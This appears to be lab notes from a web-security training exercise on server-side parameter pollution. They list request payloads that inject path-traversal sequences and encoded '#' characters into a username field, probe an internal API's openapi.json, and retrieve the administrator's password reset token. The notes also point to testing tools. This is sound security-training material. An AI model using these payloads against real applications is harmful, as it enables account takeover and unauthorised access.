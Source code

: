 The following steps were taken to identify the vulnerability and exploit it to gain access to the admin account:

* This payload returned a different response than the previous requests:

```
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../../../../../
```

* This payload still returns the normal response, this indicates that the application is processing the path traversal inputs:

```
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../administrator
```

* The following payload returns a verbose error message that discloses the structure of the internal API:

```
csrf=NpAyxU8sqRJrZ5KvnR0WzVLBYTnV3Kt8&username=../../../../openapi.json%23
```

* Decoded version:

```
csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator/../../../../../openapi.json#
```

* The following payload will return the "password reset token" for the administrator user.  The variable name (passwordResetToken) was found in a JavaScript file.

```
csrf=NpAyxU8sqRJrZ5KvnR0WzVLBYTnV3Kt8&username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```


<br><br>


#### Testing for server-side parameter pollution in structured data formats

* Review the examples in this section - https://portswigger.net/web-security/api-testing/server-side-parameter-pollution#testing-for-server-side-parameter-pollution-in-structured-data-formats


<br><br>


#### Testing with automated tools

* Burp Scanner automatically detects suspicious input transformations when performing an audit.

* You can also use the Backslash Powered Scanner BApp to identify server-side injection vulnerabilities. 

